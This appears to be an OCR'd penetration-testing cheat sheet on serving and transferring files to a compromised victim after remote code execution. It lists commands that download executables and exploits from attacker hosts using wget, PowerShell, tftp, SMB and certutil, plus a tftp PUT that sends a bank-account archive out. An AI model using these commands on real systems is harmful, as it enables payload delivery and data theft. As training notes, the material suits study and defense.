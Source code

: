 #Serving up code
Once we have RCE, we can sometimes want to serve up files or code to download and execute
on the victim (e.g., webshell)

● HTTP
○ sudo service apache2 start
○ /var/www/html
○ wget http://192.168.1.42/go.exe
● SIMPLE HTTP
○ python SimpleHTTPServer.py
○ Will serve up on port 8000 in the folder you run the script from
● TFTP
○ atftpd --daemon --port 69 /tftp
○ cd /tftp touch incoming chmod 777 incoming
○ tftp -i 10.11.0.185 GET test.txt
○ tftp -i 10.11.0.185 PUT bank-account.zip incoming
● SMB
○ smbserver.py [sharename] /tmp/smbserve/
○ Dir \\192.168.1.48\sharename
○ \\192.168.1.48\sharename\go.exe






#File Transfer
● Windows
○ tftp -i 10.11.0.185 GET test.txt
○ cscript wget.vbs http://10.11.0.158/ms11-080.exe -O C:\lec\ms11-080.exe
○ Powershell 2
■ (new-object
System.Net.WebClient).Downloadfile("http://10.11.0.185/access
chk.exe", "C:\lec\accesschk.exe")

○ Powershell 3
■ Invoke-WebRequest "http://10.11.0.130/adfsys.exe" -OutFile "adfsys.exe"
○ SimpleSMBServer
■ smbserver.py lecon /var/www/html
○ SimpleHTTPServer
■ python -m SimpleHTTPServer
○ FTP
■

● Linux
○ wget http://10.11.0.158/dirty.c -O /tmp/dirty.c
○ scp root@10.11.0.158:~/Downloads/dirty.c .








#### Windows lol
Certutil 
bitsadmin
